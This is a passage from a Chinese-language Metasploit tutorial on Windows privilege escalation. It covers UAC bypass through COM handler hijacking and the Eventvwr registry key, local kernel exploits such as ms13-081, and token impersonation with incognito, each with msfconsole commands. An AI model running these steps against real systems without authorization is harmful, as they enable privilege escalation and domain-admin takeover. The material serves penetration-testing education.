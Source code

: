 - **通过 COM 处理程序劫持**

    首先介绍一下这个 COM 处理程序劫持,此模块将通过在 hkcu 配置单元中创建 COM 处理程序注册表项来绕过 Windows UAC.当加载某些较高完整性级别进程时,会引用这些注册表项,从而导致进程加载用户控制的 DLL.这些 DLL 包含导致会话权限提升的 payload.此模块修改注册表项,但在调用 payload 后将清除该项.这个模块需要 payload 的体系架构和操作系统匹配,但是当前的低权限 meterpreter 会话体系架构中可能不同.如果指定 exe::custom,则应在单独的进程中启动 payload 后调用 ExitProcess().此模块通过目标上的 cmd.exe 调用目标二进制文件.因此,如果 cmd.exe 访问受到限制,此模块将无法正常运行.
    ```
    background
    use exploit/windows/local/bypassuac_comhijack
    set session 1
    Exploit
    ```

- **通过 Eventvwr 注册表项**

    首先介绍一下这个模块,此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动 Windows 事件查看器时调用的自定义命令来绕过 Windows UAC.它将生成关闭 UAC 标志的第二个 shell.此模块修改注册表项,但在调用 payload 后将清除该项.该模块不需要 payload 的体系架构和操作系统匹配.如果指定 EXE ::Custom,则应在单独的进程中启动 payload 后调用 ExitProcess().
    ```
    background
    use exploit/windows/local/bypassuac_eventvwr
    set session 1
    Exploit
    ```

**利用系统漏洞提权**

除了这些模块还有其它的通过直接通过 incognito 中的 add_localgroup_user 提升、ms13-081、ms15-051、ms16-032、MS16-016、MS14-068、ms18_8120_win32k_privesc 域权限提升等其它的权限提升方法.
```bash
background
use exploit/windows/local/ms13_081_track_popup_menu # 以 ms13-081 为例
set session
Exploit

# 或

background
use post/windows/gather/enum_patches
set session
Exploit
```

**令牌假冒**

在用户登录 windows 操作系统时,系统都会给用户分配一个令牌(Token),当用户访问系统资源时都会使用这个令牌进行身份验证,功能类似于网站的 session 或者 cookie.

msf 提供了一个功能模块可以让我们假冒别人的令牌,实现身份切换,如果目标环境是域环境,刚好域管理员登录过我们已经有权限的终端,那么就可以假冒成域管理员的角色.
```bash
getuid                              # 查看当前用户
use incognito                       # 进入该模块
list_tokens -u                      # 查看存在的令牌
impersonate_token <Username>        # 令牌假冒
# 注意用户名的斜杠需要写两个.

getuid                              # 查看是否切换成功
```

---